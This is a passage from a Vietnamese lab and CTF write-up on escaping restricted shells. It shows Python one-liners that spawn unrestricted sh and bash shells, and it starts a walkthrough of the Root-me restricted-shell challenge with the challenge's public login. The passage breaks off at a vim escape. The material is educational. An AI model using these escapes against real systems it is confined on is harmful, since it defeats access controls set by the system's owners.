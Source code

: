 ![](https://images.viblo.asia/59eb3fda-c108-4d49-82a1-0f03b542b89e.png)


Thực tế không phải cách leo quyền nào trong [document](https://www.exploit-db.com/docs/44592) được đề cập phía trên cũng sẽ áp dụng được ở mọi machine. Chỉ có một cách là thử từng cái một. Và thành công với Python:

command:

```
alfred@break:~$ python -c 'import os; os.system("/bin/sh")'                   //bypass sang sh shell
$ echo $0
/bin/sh                                                                       //confirmed
$ PATH=/usr/local/bin:/usr/bin:/bin:/usr/games                                //define lại PATH variable

$ $ python -c 'import pty; pty.spawn("/bin/bash")'                            //spawn ra một bash shell
alfred@break:~$ echo $0
/bin/bash                                                                     //done
alfred@break:~$ 
```

![](https://images.viblo.asia/b773e81b-245b-4e34-9066-fa23720a9711.png)



### 2.2 Root-me

Bài được đánh giá là khó, "trùm cuối" của tab  **App - Script** trên Root-me. Và thực sự là nó siêu siêu dài. Mình sẽ viết tới level 6 của lab.

Thử sức ngay tại [đây](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells). Hoặc đơn giản là SSH vào:

```
ssh -p 2222 app-script-ch14@challenge02.root-me.org
Username	app-script-ch14
Password	app-script-ch14
 ```
 
#### Level 1


![](https://images.viblo.asia/bcf7a008-1adc-481e-8c54-38ba20a162ba.png)


Chúng ta không thể dùng **ls**, nhưng có một các khác thay thế:

```
echo ./*
```

![](https://images.viblo.asia/7b6e2324-3c11-4dd5-b137-c5d180de96d2.png)

Như vậy là tại ./step1/ chúng ta có **vim**. Bypass qua vim:
